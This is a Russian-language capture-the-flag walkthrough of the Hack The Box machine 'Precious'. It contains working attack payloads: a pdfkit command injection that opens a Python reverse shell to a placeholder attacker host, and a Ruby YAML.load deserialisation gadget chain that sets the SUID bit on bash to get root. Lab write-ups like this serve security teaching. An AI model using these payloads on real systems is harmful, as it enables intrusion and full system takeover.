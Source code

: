 # Precious

:white_check_mark:  [**Pdfkit_v0.8.6**](#Pdfkit_v0.8.6)

:white_check_mark:  [**YAML.load(privesc)**](#YAML.load(privesc))

___

## Port scan
Сканируем ip командой:
```
nmap -sC -sV precious.htb
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 845e13a8e31e20661d235550f63047d2 (RSA)
|   256 a2ef7b9665ce4161c467ee4e96c7c892 (ECDSA)
|_  256 33053dcd7ab798458239e7ae3c91a658 (ED25519)
80/tcp open  http    nginx 1.18.0
| http-server-header: 
|   nginx/1.18.0
|_  nginx/1.18.0 + Phusion Passenger(R) 6.0.15
|_http-title: Convert Web Page to PDF
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Page

Главная страница **precious.htb**:

![](../assets/Precious/1.png)

На данной странице мы может обнаружить поле, в которое мы можем вписать URL. Запустим слушатель и отправим запрос на него.

```
http://10.10.xx.xx:YOUR-PORT
```

![](../assets/Precious/2.png)

Нажав на кнопку "Submit", нас перебросит на новую вкладку с pdf документом.

![](../assets/Precious/3.png)

Скачаем этот документ и исследуем с помощью exiftool. Мы можем заметить, что pdf документ создан с помощью pdfkit v0.8.6.

![](../assets/Precious/4.png)

<a name="Pdfkit_v0.8.6"></a>

## Pdfkit exploit

Попробуем найти экплоит под данную версию ПО.

Пример экплоита мы можем найти на данном [сайте](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795).

Модифицируем найденный пример, чтобы получить обратную оболочку. Запускаем слушатель и вписываем команду в поле на сайте.

```
http://YOUR-IP/?name=#{'%20`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("YOUR-IP",YOUR-PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'`'}
```

![](../assets/Precious/5.png)

Получаем обратную оболочку.

![](../assets/Precious/6.png)

## Getting user

В домашней директории пользователя ruby мы можем обнаружить нестандартную директорию **.bundle**.

![](../assets/Precious/7.png)

В этой директории мы можем обнаружить файл с данными пользователя henry.

![](../assets/Precious/8.png)

<a name="YAML.load(privesc)"></a>

## Privesc

Теперь зная пароль пользователя henry, подключимся к машине по ssh. Просмотрим права на выполнение от sudo при помощи команды **sudo -l**.

![](../assets/Precious/9.png)

Прочтем файл **update_dependencies.rb**. В нем мы можем обнаружить использование функции **YAML.load**, которая может быть уязвима.

![](../assets/Precious/10.png)

На данном [сайте](https://staaldraad.github.io/post/2021-01-09-universal-rce-ruby-yaml-load-updated/) найти пример эксплуатации данной уязвимости. 

Создадим файл, который используется для чтения, а именно **dependencies.yml**. Запишем в него следующий код.

```
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "chmod +s /bin/bash"
         method_id: :resolve
```

![](../assets/Precious/11.png)

На месте git_set мы используем нашу команду, чтобы повысить свои привилегии.

Затем нужно запустить файл **update_dependencies.rb**, который загрузит файл **dependencies.yml**.

```
sudo /usr/bin/ruby /opt/update_dependencies.rb
```

![](../assets/Precious/12.png)

Теперь мы можем очень просто получить root, используя одну команду.

```
/usr/bin/bash -p
```

![](../assets/Precious/13.png)

Мы получили root.